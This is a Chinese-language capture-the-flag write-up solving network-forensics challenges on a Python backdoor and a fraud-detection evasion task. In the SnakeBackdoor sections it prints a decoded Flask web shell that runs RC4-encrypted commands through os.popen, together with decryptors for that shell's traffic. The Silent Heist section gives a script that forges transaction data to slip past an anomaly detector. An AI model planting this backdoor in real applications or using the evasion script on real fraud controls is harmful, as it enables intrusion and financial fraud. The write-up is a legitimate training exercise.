

***

### 26 SnakeBackdoor-2

过滤条件 http contains "SECRET_KEY" 可以找到：


***

### 27 SnakeBackdoor-3

循环逆向，base64，zlib，Payload 如下：

```python
import re, base64, zlib

def unwrap(blob_bytes):
    return zlib.decompress(base64.b64decode(blob_bytes[::-1]))

blob = b"=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"
data = unwrap(blob)
print(data)

i = 2
while True:
    m = re.search(rb"exec\(\(_\)\(b['\"]([^'\"]+)['\"]\)", data)
    if not m:
        break
    blob = m.group(1)
    data = unwrap(blob)
    i += 1
    fn = f'stage{i}.py'
    open(fn, 'wb').write(data)
```

可以得到 stage33.py 解密脚本：

```python
global exc_class
global code
import os,binascii
exc_class, code = app._get_exc_class_and_code(404)
RC4_SECRET = b'v1p3r_5tr1k3_k3y'
def rc4_crypt(data: bytes, key: bytes) -> bytes:
	S = list(range(256))
	j = 0
	for i in range(256):
		j = (j + S[i] + key[i % len(key)]) % 256
		S[i], S[j] = S[j], S[i]
	i = j = 0
	res = bytearray()
	for char in data:
		i = (i + 1) % 256
		j = (j + S[i]) % 256
		S[i], S[j] = S[j], S[i]
		res.append(char ^ S[(S[i] + S[j]) % 256])
	return bytes(res)
def backdoor_handler():
	if request.headers.get('X-Token-Auth') != '3011aa21232beb7504432bfa90d32779':
		return "Error"
	enc_hex_cmd = request.form.get('data')
	if not enc_hex_cmd:
		return ""
	try:
		enc_cmd = binascii.unhexlify(enc_hex_cmd)
		cmd = rc4_crypt(enc_cmd, RC4_SECRET).decode('utf-8', errors='ignore')
		output_bytes = getattr(os, 'popen')(cmd).read().encode('utf-8', errors='ignore')
		enc_output = rc4_crypt(output_bytes, RC4_SECRET)
		return binascii.hexlify(enc_output).decode()
	except:
		return "Error"
app.error_handler_spec[None][code][exc_class]=lambda error: backdoor_handler()
```

可以得到 KEY：`v1p3r_5tr1k3_k3y`

***

### 28 SnakeBackdoor-4

过滤条件 http.request.method == "POST" && http contains "X-Token-Auth"，把里面的 data 全部拿出来用脚本解：

```python
import binascii

RC4_SECRET = b'v1p3r_5tr1k3_k3y'

def rc4_crypt(data: bytes, key: bytes) -> bytes:
    S = list(range(256))
    j = 0
    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i]
    i = j = 0
    res = bytearray()
    for char in data:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        res.append(char ^ S[(S[i] + S[j]) % 256])
    return bytes(res)

def decrypt_traffic(hex_data: str) -> str:
    enc_bytes = binascii.unhexlify(hex_data.strip())
    return rc4_crypt(enc_bytes, RC4_SECRET).decode('utf-8', errors='ignore')

samples = [
    "a6bc",
    "a3ab330fb285",
    "acad614ef3d82c8445d275713899f04d0d3819fc3726cf57634b189e0e95cc1f93e57656105246251f453a8396a43a6534",
    "bab6694ba3c938e64b8d257b7cccee460f6347f4363ed21c300c099f129b99028eb57408024e1c32061a",
    "a2ae330da7846599188b26257a88f10b50790cb47e6a97177e1053c351",
    "acb07e4db7c93ece4bcc37246687ae0649614caa3430ce4b",
    "e0ac7e52fc996cc2038c2d7a3899ed"
]

for i, sample in enumerate(samples):
    if sample:
        print(f"[{i}] {decrypt_traffic(sample)}")
```

得到：


***

### 29 SnakeBackdoor-5

逆向可得 SM4 加密算法，从数据包中获得 seed：



```python
def glibc_rand(seed):
    state = [0] * 344
    state[0] = seed
    for i in range(1, 31):
        state[i] = (16807 * state[i-1]) % 2147483647
        if state[i] < 0:
            state[i] += 2147483647
    for i in range(31, 34):
        state[i] = state[i-31]
    for i in range(34, 344):
        state[i] = (state[i-31] + state[i-3]) & 0xffffffff
    
    results = []
    for i in range(344, 348):
        val = (state[i-31] + state[i-3]) & 0xffffffff
        state.append(val)
        results.append(val >> 1)
    return results

seed = 0x34952046
rands = glibc_rand(seed)
key = b''.join(r.to_bytes(4, 'little') for r in rands[:4])
print(key.hex())
```

运行即可获得 KEY：



***

### 32 The Silent Heist

先用 `numpy` 看整体统计特征：每维分布窄、feat 之间高度相关，协方差前一主成分解释度 >93%，说明数据集中在一个近似线性流形上。

本地拟合 `IsolationForest` 作为目标风控的代理模型，确保生成样本在该模型下判定为正常。

用均值和协方差构造多元正态，缩放协方差（如 0.1×）让样本紧贴训练流形，并用原始数据的 min/max 做裁剪防止越界。

只保留代理模型判定为正常的样本；累加 feat_0，若未达 2,000,000 则继续生成并截断到满足条件的最小行数。

写出 CSV，包含表头，末行追加 `EOF`。

脚本如下：

```python
import numpy as np
import csv
from sklearn.ensemble import IsolationForest

path = "public_ledger.csv"
output = "fake_ledger.csv"

raw = np.genfromtxt(path, delimiter=",", skip_header=1)
mean = raw.mean(axis=0)
cov = np.cov(raw, rowvar=False)
min_v = raw.min(axis=0)
max_v = raw.max(axis=0)

forest = IsolationForest(
    random_state=2025, contamination="auto", n_estimators=200
).fit(raw)

rng = np.random.default_rng(2025)
scale = 0.10          # 协方差缩放，越小越贴近训练流形
batch = 800
target_rows = 6000

rows = []
while sum(r.shape[0] for r in rows) < target_rows:
    samples = rng.multivariate_normal(mean, cov * scale, size=batch)
    samples = np.clip(samples, min_v, max_v)
    preds = forest.predict(samples)
    rows.append(samples[preds == 1])

all_rows = np.vstack(rows)[:target_rows]

# 如果金额总和不足，补充并截断到恰好满足条件
total = all_rows[:, 0].sum()
if total < 2_000_000:
    need = int(np.ceil((2_000_000 - total) / mean[0])) + 200
    extra = rng.multivariate_normal(mean, cov * scale, size=need)
    extra = np.clip(extra, min_v, max_v)
    extra = extra[forest.predict(extra) == 1]
    all_rows = np.vstack([all_rows, extra])
    cutoff = np.argmax(np.cumsum(all_rows[:, 0]) > 2_000_000) + 1
    all_rows = all_rows[:cutoff]

header = [f"feat_{i}" for i in range(all_rows.shape[1])]
with open(output, "w", newline="") as f:
    writer = csv.writer(f)
    writer.writerow(header)
    writer.writerows([[f"{v:.8f}" for v in row] for row in all_rows])
    writer.writerow(["EOF"])

print("rows:", len(all_rows))
print("total_amount:", all_rows[:, 0].sum())
print("min_decision:", forest.decision_function(all_rows).min())
```

输出即为提交用的 `fake_ledger.csv`，可按需调整 `scale`、`target_rows` 或随机种子重跑。 


得到 flag：`flag{f73718ba-2022-4699-a7c1-d3a40636e7be}`

